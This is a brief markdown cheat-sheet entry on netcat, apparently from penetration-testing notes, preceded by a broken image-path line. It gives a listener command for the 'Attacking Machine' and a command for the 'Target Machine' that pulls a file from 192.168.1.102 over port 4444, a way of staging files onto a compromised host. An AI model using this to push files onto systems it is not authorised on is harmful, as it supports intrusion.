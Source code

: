 # netcat

## Simple Transfer

### Create a Sesson on Attacking Machine

```bash
nc -lvp 4444 < file
```

### Target Machine

```bash
nc 192.168.1.102 4444 > file
```

